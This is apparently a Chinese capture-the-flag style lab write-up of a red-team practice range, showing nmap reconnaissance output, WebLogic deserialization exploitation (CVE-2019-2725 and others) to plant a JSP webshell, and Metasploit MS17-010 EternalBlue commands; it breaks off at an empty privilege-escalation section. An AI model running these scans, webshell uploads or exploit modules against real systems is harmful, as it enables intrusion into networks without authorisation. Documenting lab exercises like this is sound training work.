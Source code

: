 # 靶场练习——红队实战靶场ATT&CK（二）

# 环境配置

1. web靶机有一块NAT网卡，只需要修改这块NAT网卡的网关，IP改成与攻击机器同网段就可以了
1. 关闭除域网络外的防火墙

# 信息收集

1. 主机发现，使用nmap扫描网段

   ``` powershell
   nmap -sn 192.168.2.0/24 #我的虚拟机网段
   ```

   ![xxsj1.png](img/ATT&CK2/xxsj/1.png)

2. 如上图所示，192.168.2.128是我的虚拟机软路由ip，192.168.2.133是我的武器库虚拟机IP，那么192.168.2.136就是web靶机的IP了，扫描一下端口

   ``` powershell
   nmap -Pn -sV -sC -p 1-65535 192.168.2.136
   ```

   扫描结果如下，应该存在主机漏洞，待会fscan扫一下

   ``` powershell
   Not shown: 65521 closed tcp ports (reset)
   PORT      STATE SERVICE            VERSION
   80/tcp    open  http               Microsoft IIS httpd 7.5
   |_http-title: Site doesn't have a title.
   | http-methods:
   |_  Potentially risky methods: TRACE
   |_http-server-header: Microsoft-IIS/7.5
   135/tcp   open  msrpc              Microsoft Windows RPC
   139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
   445/tcp   open  microsoft-ds       Windows Server 2008 R2 Standard 7601 Service Pack 1 microsoft-ds
   1433/tcp  open  ms-sql-s           Microsoft SQL Server 2008 R2 10.50.4000.00; SP2
   | ms-sql-ntlm-info:
   |   Target_Name: DE1AY
   |   NetBIOS_Domain_Name: DE1AY
   |   NetBIOS_Computer_Name: WEB
   |   DNS_Domain_Name: de1ay.com
   |   DNS_Computer_Name: WEB.de1ay.com
   |   DNS_Tree_Name: de1ay.com
   |_  Product_Version: 6.1.7601
   | ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
   | Not valid before: 2022-08-04T02:29:37
   |_Not valid after:  2052-08-04T02:29:37
   |_ssl-date: 2022-08-04T03:53:40+00:00; -1s from scanner time.
   3389/tcp  open  ssl/ms-wbt-server?
   | rdp-ntlm-info:
   |   Target_Name: DE1AY
   |   NetBIOS_Domain_Name: DE1AY
   |   NetBIOS_Computer_Name: WEB
   |   DNS_Domain_Name: de1ay.com
   |   DNS_Computer_Name: WEB.de1ay.com
   |   DNS_Tree_Name: de1ay.com
   |   Product_Version: 6.1.7601
   |_  System_Time: 2022-08-04T03:53:16+00:00
   |_ssl-date: 2022-08-04T03:53:40+00:00; -1s from scanner time.
   | ssl-cert: Subject: commonName=WEB.de1ay.com
   | Not valid before: 2022-08-02T00:54:33
   |_Not valid after:  2023-02-01T00:54:33
   7001/tcp  open  http               Oracle WebLogic Server 10.3.6.0 (Servlet 2.5; JSP 2.1; T3 enabled)
   |_weblogic-t3-info: T3 protocol in use (WebLogic version: 10.3.6.0)
   |_http-title: Error 404--Not Found
   49152/tcp open  msrpc              Microsoft Windows RPC
   49153/tcp open  msrpc              Microsoft Windows RPC
   49154/tcp open  msrpc              Microsoft Windows RPC
   49155/tcp open  msrpc              Microsoft Windows RPC
   51967/tcp open  msrpc              Microsoft Windows RPC
   56001/tcp open  msrpc              Microsoft Windows RPC
   60966/tcp open  ms-sql-s           Microsoft SQL Server 2008 R2 10.50.4000; SP2
   | ms-sql-ntlm-info:
   |   Target_Name: DE1AY
   |   NetBIOS_Domain_Name: DE1AY
   |   NetBIOS_Computer_Name: WEB
   |   DNS_Domain_Name: de1ay.com
   |   DNS_Computer_Name: WEB.de1ay.com
   |   DNS_Tree_Name: de1ay.com
   |_  Product_Version: 6.1.7601
   | ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
   | Not valid before: 2022-08-04T02:29:37
   |_Not valid after:  2052-08-04T02:29:37
   |_ssl-date: 2022-08-04T03:53:40+00:00; -1s from scanner time.
   MAC Address: 00:0C:29:94:82:68 (VMware)
   Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
   
   Host script results:
   | smb-security-mode:
   |   account_used: guest
   |   authentication_level: user
   |   challenge_response: supported
   |_  message_signing: disabled (dangerous, but default)
   | smb2-time:
   |   date: 2022-08-04T03:53:16
   |_  start_date: 2022-08-04T02:30:08
   | smb2-security-mode:
   |   2.1:
   |_    Message signing enabled but not required
   | smb-os-discovery:
   |   OS: Windows Server 2008 R2 Standard 7601 Service Pack 1 (Windows Server 2008 R2 Standard 6.1)
   |   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
   |   Computer name: WEB
   |   NetBIOS computer name: WEB\x00
   |   Domain name: de1ay.com
   |   Forest name: de1ay.com
   |   FQDN: WEB.de1ay.com
   |_  System time: 2022-08-04T11:53:16+08:00
   |_nbstat: NetBIOS name: WEB, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:94:82:68 (VMware)
   | ms-sql-info:
   |   192.168.2.136:1433:
   |     Version:
   |       name: Microsoft SQL Server 2008 R2 SP2
   |       number: 10.50.4000.00
   |       Product: Microsoft SQL Server 2008 R2
   |       Service pack level: SP2
   |       Post-SP patches applied: false
   |_    TCP port: 1433
   |_clock-skew: mean: -53m21s, deviation: 2h40m00s, median: -1s
   ```

3. 开放了80端口，访问一下是空白的，开放了7001端口weblogic服务

   ![xxsj2.png](img/ATT&CK2/xxsj/2.png)

# 外网突破

## 方法一：weblogic漏洞利用

1. 使用weblogic扫描利用工具扫描一下漏洞

   ![weblogic0.png](img/ATT&CK2/weblogic/0.png)

   ![weblogic1.png](img/ATT&CK2/weblogic/1.png)

   ![weblogic2.png](img/ATT&CK2/weblogic/2.png)

2. 扫描结果存在CVE-2018-3245、CVE-2019-2725和CVE-2020-2551三个漏洞，利用漏洞getshell，上传冰蝎马，上传路径：

   ``` powershell
   C:\Oracle\Middleware\user_projects\domains\base_domain\servers\AdminServer\tmp\_WL_internal\uddiexplorer\5f6ebw\war\shell.jsp
   ```

   ![weblogic3.png](img/ATT&CK2/weblogic/3.png)

3. 使用反序列化工具可以操作jsp大马的webshell，但是用冰蝎、哥斯拉和蚁剑均连接不上

   ![weblogic4.png](img/ATT&CK2/weblogic/4.png)

4. 使用蚁剑生成一个shell，然后通过反序列化工具上传到目标weblogic下，再使用蚁剑连接，成功获取到webshell

   ![weblogic5.png](img/ATT&CK2/weblogic/5.png)

## 方法二：ms17-010直接获取system权限

1. 端口扫描发现开放了445端口，直接fscan扫一下

   ![ms1.png](img/ATT&CK2/ms17010/1.png)

2. 发现ms17-010，使用msf进行验证

   ``` powershell
   search ms17_010
   use 3
   set rhost 192.168.2.136
   run
   ```

   ![ms2.png](img/ATT&CK2/ms17010/2.png)

3. 利用ms17_010攻击模块进行攻击

   ``` powershell
   use exploit/windows/smb/ms17_010_eternalblue
   set rhost 192.168.2.136
   exploit
   ```

   ![ms3.png](img/ATT&CK2/ms17010/3.png)

4. exp已编译，但是没有会话产生，有可能是msf版本问题，ms17-010利用失败

# 权限提升

1. 
